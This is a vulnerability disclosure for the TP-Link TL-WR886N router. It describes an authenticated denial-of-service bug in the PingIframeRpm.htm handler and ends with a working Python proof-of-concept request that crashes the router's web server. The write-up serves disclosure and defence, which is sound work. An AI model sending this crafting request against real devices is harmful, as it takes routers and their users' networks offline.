



Vendor of the products:　TP-Link 

Reported by: 　　　　　   zhlu32@126.com

Affected products:　　　WR886N 3.0 1.0.1 Build 150127 Rel.34123n

Vendor Homepage:　　https://www.tp-link.com.cn/

Product Link:　　　　　https://www.tp-link.com.cn/product_397.html

Hardware Link:　　　　https://service.tp-link.com.cn/detail_download_1988.html

# Overview
An issue was discovered on TP-Link TL-WR886N 3.0 1.0.1 devices. Authenticated attackers can crash router **httpd** services via **/userRpm/PingIframeRpm.htm** request which contains redundant & in parameter.

# Vul Details
## Normal Request 
An normal request looks like below.

## Malicious Request
An malicious Request which set isNew's value contains & (eg. &new looks like below)

## Attack effect
After send the malicious request, the router's web server go down. Then after reboot the router, we can see a httpd exception log in web page.

# Poc
    #!/usr/bin/env python3
    
    import requests
    
    
    def send_ping_request():
        """
        Replace real host and Authorization
        """
        host = "http://192.168.1.1"
        path = "/userRpm/PingIframeRpm.htm"
        param = "?ping_addr=ww.google.com&doType=ping&isNew=&new&sendNum=4&pSize=64&overTime=800&trHops=20"
        url = host + path + param
    
        referer = "http://192.168.1.1/userRpm/DiagnosticRpm.htm"
        headers = {'Cookie': 'Authorization=Basic%20YWRtaW46MTIzNDU2Nw%3D%3D; ChgPwdSubTag=', 'Referer': referer}
    
        response = requests.get(url=url, headers=headers)
        print(response.text)
    
    
    if __name__ == "__main__":
        send_ping_request()
